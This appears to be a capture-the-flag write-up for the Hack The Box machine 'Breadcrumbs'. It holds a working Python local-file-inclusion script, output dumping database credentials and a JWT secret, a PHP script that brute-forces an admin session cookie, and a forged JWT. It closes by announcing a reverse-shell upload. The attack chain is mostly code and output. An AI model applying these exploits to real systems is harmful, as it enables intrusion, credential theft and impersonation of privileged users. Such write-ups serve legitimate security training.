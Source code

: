 # LFI Script and Lazy crawler

```python
import requests, re, sys

def lfi(page):
    data = {'book': page,
            'method': 1}
    resp= requests.post('http://10.10.10.228/includes/bookController.php',
           data=data)
    try:
        return bytes(resp.text, 'utf-8').decode('unicode_escape').strip('"').replace('\/','/')
    except:
        return resp.text

if __name__ == "__main__":
    page = lfi(sys.argv[1])
    if len(sys.argv) == 3:
        files = re.findall(r'([a-zA-Z0-9\-\/]*\.php)', page)
        for f in files:
            print(f)
    else:
        print(page)

```
* Crawler 3 arg useing 'a' (lazy code)
```bash
$ python3 lfi.py ../db.php a
/db.php
bookController.php
```

## Loking how for info in source code

* Get content  ***db.php***
```bash
$ python3 lfi.py ../db/db.php
<?php

$host="localhost";
$port=3306;
$user="bread";
$password="jUli901";
$dbname="bread";

$con = new mysqli($host, $user, $password, $dbname, $port) or die ('Could not connect to the database server' . mysqli_connect_error());
?>
```

### Looking at the fileController php file to see who can upload files
* ***../portal/includes/fileController.php***
* secret_key: 6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e
```bash
$ python3 lfi.py ..//portal/includes/fileController.php
/home/dix/htb/breadcrumbs/lfi.py:9: DeprecationWarning: invalid escape sequence '\/'
  return bytes(resp.text, 'utf-8').decode('unicode_escape').strip('"').replace('\/','/')
<?php
$ret = "";
require "../vendor/autoload.php";
use \Firebase\JWT\JWT;
session_start();

function validate(){
    $ret = false;
    $jwt = $_COOKIE['token'];

    $secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';
    $ret = JWT::decode($jwt, $secret_key, array('HS256'));   
    return $ret;
}

if($_SERVER['REQUEST_METHOD'] === "POST"){
    $admins = array("paul");
    $user = validate()->data->username;
    if(in_array($user, $admins) && $_SESSION['username'] == "paul"){
        error_reporting(E_ALL & ~E_NOTICE);
        $uploads_dir = '../uploads';
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_POST['task'];

        if(move_uploaded_file($tmp_name, "$uploads_dir/$name")){
            $ret = "Success. Have a great weekend!";
        }     
        else{
            $ret = "Missing file or title :(" ;
        }
    }
    else{
        $ret = "Insufficient privileges. Contact admin or developer to upload code. Note: If you recently registered, please wait for one of our admins to approve it.";
    }

    echo $ret;
}
```

### Looking around the source code to examine how PHP Sessions are built, so we can impersonate Paul
```bash
$ python3 lfi.py ../portal/cookie.php
/home/dix/htb/breadcrumbs/lfi.py:9: DeprecationWarning: invalid escape sequence '\/'
  return bytes(resp.text, 'utf-8').decode('unicode_escape').strip('"').replace('\/','/')
<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
```

## Running makesession with all permutations so we can get Pauls login cookie
```php
<?php
function makesession($username, $seed){
    $max = strlen($username) - 1;
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}

echo makesession("paul",0);
echo "\r\n";
echo makesession("paul",1);
echo "\r\n";
echo makesession("paul",2);
echo "\r\n";
echo makesession("paul",3);
echo "\r\n";
?>
```


```bash
$ php user.php 
paula2a6a014d3bee04d7df8d5837d62e8c5
paul61ff9d4aaefe6bdf45681678ba89ff9d
paul8c8808867b53c49777fe5559164708c3
paul47200b180ccd6835d25d034eeb6e6390
```

* input the sessions  was create on burp to try catch the paul session
![[Pasted image 20211221013653.png]]
***PHPSession: paul47200b180ccd6835d25d034eeb6e6390 ***

![[Pasted image 20211221013802.png]]


### Now have to change the token to paul user, the token is using is the user test
* Input data to paul, and input the secret key
![[Pasted image 20211221014542.png]]

JWT Encode : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.4mJguG8tRd2z_feWJpmr_J3AdMeDPvW7GCK7cW7o0AI
* Now the PHP-Session is paul and the token is paul

*** Time to trying upload a reverse Shell ***